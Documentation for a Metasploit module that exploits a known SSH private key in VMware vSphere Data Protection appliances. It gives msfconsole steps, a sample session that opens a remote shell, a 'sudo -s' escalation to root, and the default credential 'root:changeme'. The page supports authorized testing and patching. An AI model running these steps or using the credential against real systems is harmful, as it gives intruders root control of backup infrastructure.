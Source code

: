 ## Vulnerable Application

  VMware vSphere Data Protection appliances 5.5.x through 6.1.x contain a known ssh private key for the local user admin who is a sudoer without password.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/ssh/vmware_vdp_known_privkey`
  3. Do: `set rhost 1.2.3.4`
  4. Do: `exploit`
  5. You should get a shell.
  6. Type: `sudo -s` to become root user

## Scenarios

This is a run against a known vulnerable vSphere Data Protection appliance.  
  
```
msf > use exploit/linux/ssh/vmware_vdp_known_privkey  
msf exploit(vmware_vdp_known_privkey) > set rhost 1.2.3.4  
rhost => 1.2.3.4  
msf exploit(vmware_vdp_known_privkey) > run  
  
[+] Successful login  
[*] Found shell.  
[*] Command shell session 1 opened (1.2.3.5:34147 -> 1.2.3.4:22) at 2017-01-20 20:43:22 +0100  
```

## Further Information

The default account of the appliance is root:changeme
